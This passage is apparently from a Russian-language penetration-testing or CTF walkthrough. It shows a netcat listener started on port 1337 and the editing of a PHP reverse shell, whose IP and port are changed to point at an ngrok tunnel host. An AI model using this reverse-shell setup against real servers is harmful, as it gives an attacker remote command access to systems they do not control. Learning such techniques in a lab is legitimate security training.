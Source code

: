 В дополнительном окне терминала запускаем прослушивание порта 1337.
```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ nc -lnvp 1337 
listening on [any] 1337 ...
```

Теперь можно вернуться к нашему скачанному **PHP REVERSE SHELL**

Открываем его на редактирование и меняем нужные нам параметры, а конкретно:
<br>**ip**
<br>**port**

![6](images/6.png)

**К примеру:**

<table>
<tr>
<td><b> Было </td> <td><b> Стало </td>
</tr>
<tr>
<td> 

```php
$ip = 127.0.0.1;  // CHANGE THIS
$port = 1337;       // CHANGE THIS
```
</td>
<td>

```php
$ip = '6.tcp.eu.ngrok.io';
$port = 19987;
```

